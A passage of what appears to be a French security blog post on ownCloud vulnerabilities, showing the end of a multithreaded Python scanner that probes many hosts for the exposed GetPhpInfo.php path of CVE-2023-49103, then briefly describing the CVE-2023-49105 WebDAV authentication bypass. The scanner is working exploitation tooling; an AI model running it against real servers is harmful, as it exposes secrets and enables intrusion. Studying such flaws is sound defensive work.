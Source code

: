 ```py
            urls.append(base_url + "/apps/graphapi/vendor/microsoft/microsoft-graph/tests/GetPhpInfo.php/.css")

    url_queue = queue.Queue()
    num_workers = min(100, len(urls))  # Adjust based on your system's capabilities

    with alive_bar(len(urls), bar='smooth', enrich_print=False) as bar:
        with ThreadPoolExecutor(max_workers=num_workers) as executor:
            # Start worker threads
            for _ in range(num_workers):
                executor.submit(process_urls, url_queue, output_file, bar)

            # Read URLs and add them to the queue
            for url in urls:
                url_queue.put(url)

            # Add sentinel values to indicate completion
            for _ in range(num_workers):
                url_queue.put(None)

            url_queue.join()  # Wait for all tasks to be completed


if __name__ == "__main__":
    parser = argparse.ArgumentParser(description='Process some URLs.')
    parser.add_argument('-t', '--target', required=True, help='Input file with URLs')
    parser.add_argument('-o', '--output', required=True, help='Output file for valid URLs')

    args = parser.parse_args()

    process_file(args.target, args.output)
```

### Schéma

Ci-dessous un schéma récapitulatif de l'attaque :

![Alt text](/images/pwncloud/CVE-2023-49103.gif)

## CVE-2023-49105

![CVE-2023-49105](/images/pwncloud/2023-12-11_16-11.png)

Quelques rappels concernant la vulnérabilité CVE-2023-49105 :
   - Le score CVSS est de 9.8 😨.
   - Il est possible de lire, écrire et supprimer des fichiers en contournant l'authentification de l'Api WebDAV.

Ambionics a sorti un très bon article sur ce sujet : https://www.ambionics.io/blog/owncloud-cve-2023-49103-cve-2023-49105
